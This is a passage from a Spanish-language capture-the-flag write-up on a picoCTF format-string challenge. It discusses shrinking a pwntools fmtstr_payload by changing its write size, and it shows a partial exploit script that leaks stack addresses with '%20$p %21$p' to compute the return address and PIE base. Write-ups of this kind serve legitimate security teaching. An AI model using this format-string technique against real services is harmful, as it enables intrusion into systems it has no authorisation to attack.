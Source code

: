 ```c
[*] Longitud Payload: 120
```

Aquí está el problema, nuestro payload es demasiado grande y los últimos 20 bytes se omiten. Que podemos hacer para reducir el tamaño de nuestro payload?

Si nos fijamos bien, nuestra función `fmtstr_payload` necesita 3 parámetros, el ultimo de ellos controla el tamaño de las escrituras del payload.

Hay 3 tipos de tamaño de escritura para nuestra función:

* Byte
* Short
* Int

En el orden que he puesto, cuanto mas arriba, el payload ocupará mas espacio pero habrá mas precisión en las direcciones. Si usamos `short` tal vez de `byte` el tamaño del payload será menor pero su precisión también. Como es nuestra única alternativa vamos a intentarlo:

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./valley")

context.binary = exe
context.terminal = ['kitty']
gdb_script = '''
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
    else:
        r = remote("shape-facility.picoctf.net", 56161)

    return r


def main():
    r = conn()

    offset_input = 6
    
    offset_piebase = 0x1413 # Calculo del offset
    info(f'Offset PIE base: {hex(offset_piebase)}')

    r.sendlineafter(b':', b'%20$p %21$p') # Conseguimos el leak de la posición 20 y 21 de la pila

    leaked_line = r.recvline_contains(b':').decode().strip()
    
    leaked_return_address = int(leaked_line.split()[-2], 16) - 0x8 # Calculo de la dirección de retorno
    info(f'Leaked Return Address: {hex(leaked_return_address)}')
    leaked_stack_address = int(leaked_line.split()[-1], 16)
    info(f'Leaked Return Address: {hex(leaked_return_address)}')
    info(f'Leaked Stack Address: {hex(leaked_stack_address)}')

    base_binario = leaked_stack_address - offset_piebase # Calculo de la base del binario, leak de la dirección menos el offset calculado
    info(f'Base del binario: {hex(base_binario)} ({hex(leaked_stack_address)} - {hex(offset_piebase)})')
```